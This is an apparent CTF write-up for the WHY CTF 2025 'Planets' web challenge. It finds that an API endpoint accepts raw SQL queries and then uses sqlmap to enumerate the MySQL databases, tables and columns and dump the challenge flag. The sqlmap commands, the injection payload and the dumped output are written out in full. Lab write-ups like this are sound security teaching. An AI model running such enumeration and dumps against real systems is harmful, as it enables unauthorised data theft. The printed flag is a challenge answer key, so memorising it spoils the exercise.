 ```yaml
---
name: Planets (2025)
event: WHY CTF 2025
category: Web
description: Writeup for Planets (Web) - WHY CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Planets

## Description

> I just started programming and created my [first website](http://planets.ctf.zone), an overview of all the planets in our solar system. Can you check if I didn't leave any security issues in it?

## Solution

We have a simple web page showing different planets.

![](images/0.PNG)

Checking the HTTP history, there is an interesting POST request to `/api.php` - the body contains an SQL query.

{% code overflow="wrap" %}
```sql
query=SELECT * FROM planets
```
{% endcode %}

The response has a JSON object containing all the planets and their properties. Of course, we suspect SQL injection and this was a quick one; we can run SQLMap to dump the database.

### SQL Injection

I start by copying the HTTP request content from burp into a file called `req`, then run SQLMap in batch mode (auto-answer questions).

{% code overflow="wrap" %}
```bash
sqlmap -r req --batch
```
{% endcode %}

We get a successful payload.

{% code overflow="wrap" %}
```bash
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: inline query
    Title: Generic inline queries
    Payload: query=SELECT (SELECT CONCAT(CONCAT('qvzqq',(CASE WHEN (4195=4195) THEN '1' ELSE '0' END)),'qpqvq')) FROM planets
---
```
{% endcode %}

Confirmation that the DB is MySQL.

{% code overflow="wrap" %}
```bash
[INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 8.0.0
```
{% endcode %}

Next, we can list the databases.

{% code overflow="wrap" %}
```bash
sqlmap -r req --batch --dbs

available databases [3]:
[*] information_schema
[*] performance_schema
[*] planets
```
{% endcode %}

We should check `planets` and see what tables it contains.

{% code overflow="wrap" %}
```bash
sqlmap -r req --batch -D planets --tables

+-------------------+
| abandoned_planets |
| planets           |
+-------------------+
```
{% endcode %}

The `abandoned_planets` table sounds interesting, we'll list the columns.

{% code overflow="wrap" %}
```bash
sqlmap -r req --batch -D planets -T abandoned_planets --columns

+-------------+------+
| Column      | Type |
+-------------+------+
| description | text |
| name        | text |
| id          | int  |
| image       | text |
+-------------+------+
```
{% endcode %}

Dump the interesting fields from the database.

{% code overflow="wrap" %}
```bash
sqlmap -r req --batch -D planets -T abandoned_planets -C name,description --dump

+--------+--------------------------------------------------------------------------------------------+
| name   | description                                                                                |
+--------+--------------------------------------------------------------------------------------------+
| Pluto  | Have you heard about Pluto? That's messed up right? flag{9c4dea2d8ae5681a75f8e670ac8ba999} |
+--------+--------------------------------------------------------------------------------------------+
```
{% endcode %}

We have our first flag 😼

Flag: `flag{9c4dea2d8ae5681a75f8e670ac8ba999}`
